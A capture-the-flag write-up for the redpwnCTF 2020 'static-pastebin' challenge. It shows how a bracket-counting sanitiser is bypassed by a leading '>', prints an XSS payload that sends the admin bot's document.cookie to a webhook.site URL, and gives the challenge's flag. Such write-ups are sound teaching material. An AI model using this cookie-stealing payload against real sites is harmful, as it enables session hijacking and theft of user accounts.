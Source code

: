 # static-pastebin

## Problem

```
I wanted to make a website to store bits of text, but I don't have any experience with web development. However, I realized that I don't need any! If you experience any issues, make a paste and send it here

Site: static-pastebin.2020.redpwnc.tf

Note: The site is entirely static. Dirbuster will not be useful in solving it.
```

## Solution

We are given a link to 2 different sites, the [pastebin site](./images/staticpaste1.PNG) and an [admin bot website](./images/staticpaste2.PNG)
which visits any URL it is given.

Immediately I thought of reflected XSS as this was similar to a challenge in the recent WeCTF. I had never attempted 
XSS in a practical context before, so this was a good opportunity to learn. 

I tried submitting `<script>alert(123)</script>` to the pastebin site to see if basic XSS could be exploited.
However it didn't return anything. I checked the `script.js` of the pastebin page post-submission and found some [sanitisation](./files/static-pastebin/script.js)
involved:

```javascript
function clean(input) {
    let brackets = 0;
    let result = '';
    for (let i = 0; i < input.length; i++) {
        const current = input.charAt(i);
        if (current == '<') {
            brackets ++;
        }
        if (brackets == 0) {
            result += current;
        }
        if (current == '>') {
            brackets --;
        }
    }
    return result
}
```

The function does an improper sanitisation, by counting the tag brackets `<>` in the input. This can easily be bypassed by  
prepending a close angle bracket `>` to your input thereby setting `brackets` to -1 initially. Any subsequent content within 
enclosed tags will be processed, allowing us to execute XSS payload. We test it out by inputting the code below to the pastebin site:
```javascript
><img src=/ onerror=<script>alert(123)</script>></img>
```

![](images/staticpaste2a.PNG)

Another important observation from the pastebin site: it takes the submitted input, encodes it with Base64 and appends
it to the back of the URL `https://static-pastebin.2020.redpwnc.tf/paste/#`.  For example, by submitting `hello` on the 
pastebin site, the URL returned is `https://static-pastebin.2020.redpwnc.tf/paste/#aGVsbG8K`. `aGVsbG8K` is the base64
 encoding of `hello`.

![](images/staticpaste3.PNG)


So our plan is:
1. Set up a device to capture and read requests.
    * We can use [Webhook.site](https://webhook.site/), an API to intercept requests and view their data upon certain events
      being triggered.
      
2. Craft the XSS payload.
    ```javascript
    ><img src=/ onerror="javascript:document.location='https://webhook.site/17ea03fd-9bdf-4c80-a9b1-8e4ee88cd72f?c='+document.cookie"></img>
    ```
    * This code will attempt to load an image from the `/` filepath where no image exists. This invokes an error, triggering 
    the `onerror` code execution, which sends a request to our webhook site from (1) with the document cookie as a URL slug.
    
3. Base64 encode the payload in (2), append it to back of the pastebin site post-submission URL.
    
    ```
    https://static-pastebin.2020.redpwnc.tf/paste/#PjxpbWcgc3JjPXggb25lcnJvcj0iamF2YXNjcmlwdDpkb2N1bWVudC5sb2NhdGlvbj0naHR0cHM6Ly93ZWJob29rLnNpdGUvMTdlYTAzZmQtOWJkZi00YzgwLWE5YjEtOGU0ZWU4OGNkNzJmP2M9Jytkb2N1bWVudC5jb29raWUiPjwvaW1nPg==
    ```
4. Input the URL in (3) to the [admin bot site](images/staticpaste4.PNG).
    
This should send a request to our webhook site which captures to displays the data, including the flag.

![](images/staticpaste_flag.PNG)

**Flag**: `flag{54n1t1z4t10n_k1nd4_h4rd}`